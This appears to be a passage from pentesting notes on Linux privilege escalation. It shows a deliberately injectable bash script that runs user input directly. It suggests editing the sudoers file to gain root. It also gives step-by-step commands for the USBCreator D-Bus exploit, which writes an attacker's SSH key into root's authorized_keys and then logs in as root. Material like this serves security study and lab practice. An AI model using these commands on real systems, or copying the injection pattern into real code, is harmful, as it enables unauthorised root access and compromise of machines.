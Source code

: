 ## Example
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
Note: Here one can insert malicious code to be executed by the program.


# Binaries (file read and write)
- If a given binary allows you to edit files and one's not yet root, the attacker can try to edit the **sudoers** file and put the user in there, hence gaining root privs.      
- Also, maybe try copying the original file and add yourself to it and replace the original file with the altered version.

# Processes / Buses

## Monitor buses
`busctl` can be used to monitor and examine the D-Bus.

## Vulnerable interfaces

### USBCreator D-Bus | com.ubuntu.USBCreator
#### Steps to exploit
```bash

remote-machine> ps auwx | grep usb

remote-machine> echo "attack-machine id_rsa.pub key" > ~/authorized_keys

remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true

attack-machine> ssh -i id_rsa root@10.10.10.10
```
Help: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)


# Web technologies
Below you'll find a list of vulnerabilities in web technologies that will allow one to escalate privileges on a machine.

- [Redis - CVE-2022-0543](../Known_vulnerabilities/web.md#redis-lua-sandbox-escape-vulnerability-cve-2022-0543)
- [Flask (Jinja 2) RCE](../Known_vulnerabilities/web.md#flask-jinja-2-rce)
